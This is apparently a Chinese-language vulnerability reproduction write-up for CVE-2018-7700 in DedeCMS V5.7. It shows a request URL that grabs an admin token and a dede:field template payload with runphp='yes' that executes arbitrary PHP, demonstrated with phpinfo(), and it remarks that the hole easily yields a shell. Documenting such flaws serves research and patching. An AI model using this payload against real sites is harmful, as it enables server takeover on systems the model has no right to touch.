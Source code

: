 # DedeCMS V5.7 后台代码执行漏洞（CVE-2018-7700）

本文仅用于技术讨论与研究，文中的实现方法切勿应用在任何违法场景。如因涉嫌违法造成的一切不良影响，本文作者概不负责。

## 漏洞描述

织梦内容管理系统(Dedecms)是一款PHP开源网站管理系统。该漏洞的触发文件为 /dede/tag_test_action.php。起因是 csrf_check() 函数的绕过，导致登陆后。可执行任意代码。

## CVE编号

CVE-2018-7700

## 漏洞影响

DedeCMS V5.7

DedeCMS V5.7 SP2

## 漏洞复现

测试版本为 5.7 SP2，描述中的 csrf_check 没有去验证，据说是因为登陆的时候不会生成 `$_SESSION['token']` ，因此登陆之后直接将 token 置空即可绕过，但我这里并没有觉得需要绕过这里，登陆后可以直接从其他地方获取 token ，这里主要关注代码执行漏洞。

还是一样，先获取一个 token

```plain
http://www.dedecms521.com/dede/tpl.php?action=upload
```

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1650290581323-396cd58f-d586-43e5-bde0-48a4eae5f0ea.png)

然后就可以代码执行

```plain
http://www.dedecms521.com/dede/tag_test_action.php?token=05e0a0ab271dd01fd277c139a02940b6&partcode={dede:field name='source' runphp='yes'}phpinfo();{/dede:field}
```

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1650290688835-9e5cc28c-e530-4ae1-9496-b74ec2c8fd5c.png)



## 总结

其实这个漏洞只是 dede 提供的一个标签代码测试的功能，但是被利用了，基本上只要进到后台，利用这个还是很容易getshell的，有关于 dede 的标签的构造的内容，很多都省去了，但对阅读应该没有太大的问题

该过程实际上就是

```plain
模板 -> 全局标记测试
```

然后填入自己的代码

```php
{dede:field name='source' runphp='yes'}phpinfo();{/dede:field}
```

这个 CVE 最着重的地方是这个 token 的绕过，但是不是只要是进入了后台，很容易就可以获取到 token 么，那这个 token 的绕过就没有太大必要了

## 参考

- `https://wiki.bylibrary.cn/漏洞库/01-CMS漏洞/DedeCMS/Dedecms V5.7后台任意代码执行CVE-2018-7700/`



`github` 链接：`https://github.com/N0puple/vulPOC`

获取文中环境可以关注公众号 “安全漏洞复现”，回复 “漏洞环境”



